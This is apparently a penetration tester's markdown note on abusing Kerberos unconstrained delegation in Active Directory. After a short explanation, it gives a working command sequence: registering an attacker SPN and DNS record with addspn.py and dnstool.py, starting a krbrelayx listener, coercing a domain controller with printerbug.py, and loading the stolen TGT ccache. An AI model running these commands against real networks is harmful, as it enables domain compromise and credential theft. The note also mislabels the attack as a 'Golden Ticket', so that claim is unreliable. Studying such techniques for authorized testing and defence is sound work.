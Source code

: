 (https://www.thehacker.recipes/ad/movement/kerberos/delegations/)
# Unconstrained

>[!NOTE]
>Unconstrained delegation abuses are usually combined with an [MS-RPRN abuse (printerbug)](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn), [MS-EFSR abuse (petitpotam)](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr), [MS-FSRVP abuse (shadowcoerce)](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-fsrvp), r [PrivExchange](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange) to gain domain admin privileges.

![[Pasted image 20250723125914.png]]

## What is it?

- The **oldest and least secure** form.
- When unconstrained delegation is enabled on a computer or service account, that service can impersonate users _to any other service_ on the network after the user authenticates to it.
- The service basically gets the user’s full Kerberos Ticket Granting Ticket (TGT), allowing it to request tickets to _any_ service on behalf of that user.

## Abuse Theory
- If an attacker compromises a machine or service with unconstrained delegation enabled, they can extract all users’ TGTs that authenticate to that machine.
- This lets the attacker impersonate any user in the domain (including admins), gaining **full domain control**.
- This attack is often called a **“Golden Ticket”** or **“Kerberos delegation abuse”**.

## Abuses

```shell
# 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

# 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

# 3. Check that the record was added successfully (after ~3 minutes)
nslookup attacker.DOMAIN_FQDN DomainController

# 4. Start the krbrelayx listener (the tool needs the right kerberos key to decrypt the ticket it will receive)
# 4.a. either specify the salt and password. krbrelayx will calculate the kerberos keys
krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'
# 4.b. or supply the right Kerberos long-term key directly
krbrelayx.py -aesKey aes256-cts-hmac-sha1-96-VALUE

# 5. Authentication coercion
# PrinterBug, PetitPotam, PrivExchange, ...
printerbug.py domain/'vuln_account$'@'DC_IP' -hashes LM:NT 'DomainController'

# 6. Check if it works. Krbrelayx should have received and decrypted a ticket, extracting the coerced principal's TGT.
# There should be a krbtgt ccache file in the current directory. And it can be used by
export KRB5CCNAME=`pwd`/'krbtgt.ccache'
```